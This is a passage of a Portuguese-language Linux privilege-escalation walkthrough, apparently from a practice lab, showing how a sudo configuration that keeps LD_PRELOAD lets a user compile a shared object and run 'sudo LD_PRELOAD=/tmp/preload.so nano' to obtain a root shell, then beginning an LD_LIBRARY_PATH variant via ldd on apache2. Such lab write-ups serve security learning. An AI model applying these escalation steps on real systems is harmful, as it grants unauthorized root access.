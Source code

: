 
## **<a id="7"> • Sudo - Environment Variables.</a>**

Aqui vamos explorar a escalação de privilégios através de uma falha de permissão no comando `sudo`.

Sudo pode ser configurado para herdar determinadas variáveis de ambiente do ambiente do usuário. Vamos utilizar o comando `sudo -l` para verificar quais variáveis de ambiente o sudo herda.

```bash
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

`LD_PRELOAD` e `LD_LIBRARY_PATH` são ambos herdados do ambiente do usuário. `LD_PRELOAD` carrega um objeto compartilhado antes de qualquer outro quando um programa é executado. `LD_LIBRARY_PATH` fornece uma lista de diretórios onde as bibliotecas compartilhadas são procuradas primeiro.

Vamos criar um objeto compartilhado do arquivo `/home/user/tools/sudo/preload.c` utilizando o `gcc`

```bash
user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Agora vamos executar o `nano` que temos permissão para executar via sudo, enquanto configuramos a variável de ambiente LD_PRELOAD para o caminho completo do novo objeto compartilhado:

Ao fazer isso uma shell root será aberta.

```bash
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so nano
root@debian:/home/user# whoami
root
```

<div class="page"/>

Outra forma de conseguir isso é executando o `ldd` no arquivo de programa apache2 para ver quais bibliotecas compartilhadas são usadas pelo programa:

```bash
user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fffa6042000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f1c1e41b000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f1c1e1f7000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f1c1dfbd000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f1c1dda1000)
        libc.so.6 => /lib/libc.so.6 (0x00007f1c1da35000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f1c1d830000)
        librt.so.1 => /lib/librt.so.1 (0x00007f1c1d628000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f1c1d3f1000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f1c1d1ec000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f1c1cfc4000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f1c1e8d8000)
```
